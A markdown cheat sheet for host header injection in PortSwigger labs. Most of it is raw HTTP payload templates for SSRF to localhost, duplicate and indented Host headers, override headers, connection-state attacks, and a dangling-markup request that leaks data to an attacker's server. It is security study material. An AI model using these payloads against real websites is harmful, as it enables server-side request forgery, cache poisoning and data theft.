 # Host Header Injection - CHEATSHEET + IMPORTANT LABS
## Key Terms

```bash
- Param Miner extension
	  -> guess: headers, params, body, everything!
```

## Most important labs

- [Host-header-injection-via-web-cache-poisoning+xss](host-header-injection-via-web-cache-poisoning+xss.md)

- [SSRF via arbitraty host + EXTRA lab: absolute path](SSRF-via-arbitraryhost-and-absolute-path.md)

- [SSRF-via-host-validation-bypass-via-connection-state-attack](SSRF-via-host-validation-bypass-via-connection-state-attack.md) ❗


## Metodology

❗ Important: To avoid wasting time during the exam, PortSwigger warns that if an SSRF exists it will always be reachable at **localhost** on **port 6566**. 

```bash
- Discover allowed headers with Param Miner
- Try Arbitrary Host
- Only local users? 
	  -> localhost
	  -> SSRF 
- Inject duplicate host header -> blocked? -> indent.
- Intruder -> !! disable update host to match !! 
- Try absloute path in GET = ignore malicious host 
- Send 2 request in a single connection -> 1 valid + 2 with SSRF
- Try inject in port after port delimeter : delimeter  
```

## Cheat Sheet

```bash
# ARBITRARY HOST / TRY FIRST INSERT COLLABORATOR PAYLOAD 
GET /admin
Host: <VULNERABLE-WEB>:<OUR-SV>||<LOCALHOST-SSRF>
# DUPLICATE HOST / SWITCH ORDER
GET /example HTTP/1.1
Host: <VULNERABLE-WEB>
Host: <OUR-SV>||<LOCALHOST-SSRF>
# MALICIOUS INDENTED <TAB> (TRY MORE TABS) HOST + LEGIT HOST
GET /example HTTP/1.1
	Host: <OUR-SV>||<LOCALHOST-SSRF>         
Host: <VULNERABLE-WEB>
# TRY OTHER HEADERS -> X-Host, X-Forwarded-Server, X-HTTP-Host-Override ... etc
GET /example HTTP/1.1
Host: <VULNERABLE-WEB>
X-Forwarded-Host: <OUR-SV>||<LOCALHOST-SSRF>
# ABSOLUTE PATH = IGNORE HOST 
GET <ABSOLUTE_PATH>            
Host: <OUR-SV>||<LOCALHOST-SSRF>
# MULTIPLE REQUEST IN A SINGLE CONNECTION
## REQUEST 1
GET /
Host: <VALID-HOST>
Connection: keep-alive
## REQUEST 2
GET /admin
Host: <VULNERABLE-WEB>:<OUR-SV>|
Connection: keep-alive
# AFTER PORT : DELIMETER - DANGLING MARKUP
GET /
Host: <YOUR-LAB>:'<a href="//<EXPLOIT-SV>/?
```

> DIFFERENT WAYS TO WRITE LOCALHOST   
``` 
> localhost
> 127.0.0.1  
	in decimal -> 2130706433 
	in binary  -> 01111111.00000000.00000000.00000001
> 127.255.255.255 
    in decimal -> 2147483647
    in binary  -> 01111111.11111111.11111111.11111111
> 127.1
```
